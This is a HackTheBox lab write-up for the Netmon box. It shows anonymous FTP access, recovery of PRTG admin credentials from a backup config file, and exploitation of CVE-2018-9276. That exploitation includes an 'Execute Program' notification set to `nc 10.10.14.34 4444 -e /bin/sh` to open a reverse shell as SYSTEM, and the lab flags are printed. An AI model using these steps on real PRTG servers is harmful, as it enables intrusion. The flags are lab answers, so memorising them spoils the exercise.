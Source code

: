 # Netmon

Author: Ewaël

**Netmon** is an easy HackTheBox box by mrb3n.

`nmap -sC -sV -oN nmap 10.10.10.152 -v -A` shows port 80 is open and an anonymous ftp access. Let's check this website first.

![login](login.png)

The default credentitials `prtgadmin:prtgadmin` do not work and I do not find any bypass on Google. Let's try that ftp anonymous access with `ftp 10.10.10.152` and `anonymous:<empty>`.

From there I can access every resources on the machine as a user. First I get the user flag in `/Users/Public`:

`dd58ce67b49e15105e88096c8d9255a5`

Then I search for PRTG config files which could contain some credentitials. The default location for configuration files is `/programdata/Paessler/PRTG Network Monitor`. I transfer all of them on host and finally find something interesting in `PRTG Configuration.old.bak`: `prtgadmin:PrTg@dmin2018`.

I change it to `prtgadmin:PrTg@dmin2019` and log into PRTG Network Monitor.

![admin](admin.png)

I can now exploit the CVE-2018-9276. I download the CVE python script and execute it:

```
python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.14.34 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```

Back on the site, I have to exploit a notification vulnerability. Let's start by finding notifications list:

![notif](notif.png)

Then the notifications settings:

![config](config.png)

Finally I check the `Execute Program` box and I fill it with `nc 10.10.14.34 4444 -e /bin/sh`:

![nc](nc.png)

A shell pops up on host as system administrator when I send a notification test with those settings. I can now get my root flag:

`3018977fb944bf1878f75b879fba67cc`
